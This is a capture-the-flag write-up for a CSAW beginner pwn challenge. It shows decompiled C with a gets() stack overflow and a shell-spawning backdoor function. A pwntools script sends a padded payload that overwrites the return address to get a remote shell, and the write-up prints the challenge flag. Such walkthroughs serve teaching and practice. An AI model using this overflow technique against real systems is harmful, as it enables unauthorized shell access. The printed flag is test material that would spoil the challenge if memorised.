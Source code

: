 #### Challenge:

Charlie forgot his password to login into his Office portal. Help him to find it. (This challenge was written for the person on your team who has never solved a binary exploitation challenge before! Welcome to pwning.)

`nc pwn.chal.csaw.io 5000` [password_checker](./password_checker ":ignore")

---

#### Solution:

Opening the binary in `ghydra` we see that this is classic `stack overflow` using `gets`. We are conveniently given also function `backdoor` that runs the shell, So we just need to set the return pointer.

```c
void backdoor(void) {
  system("/bin/sh");
  return;
}

void password_checker(void) {
  undefined8 local_a8;
  undefined local_a0;
  char local_78 [48];
  char local_48 [60];
  int local_c;

  printf("Enter the password to get in: \n>");
  gets(local_48);
  strcpy(local_78,local_48);
  local_a8 = 0x64726f7773736170;
  local_a0 = 0;
  local_c = strcmp(local_78,(char *)&local_a8);
  if (local_c == 0) {
    printf("You got in!!!!");
  }
  else {
    printf("This is not the password");
  }
  return;
}

undefined8 main(EVP_PKEY_CTX *param_1) {
  init(param_1);
  password_checker();
  return 0;
}
```

```python
#!/usr/bin/env python

from pwn import *
from struct import *

for i in range(1, 2):
    print(i)

    host = "pwn.chal.csaw.io"
    port = 5000
    r = remote(host, port)

    # r = process('./password_checker')

    print(r.recvline().decode('utf-8').strip())


    payload = b'A'*(64) + b'B'*8 + pack("<Q", 0x0000000000401172)

    print(payload)

    r.sendline(payload)
    r.interactive()
    r.close()
```

---

<details><summary>FLAG:</summary>

```
flag{ch4r1i3_4ppr3ci4t35_y0u_f0r_y0ur_h31p}
```

</details>
<br/>
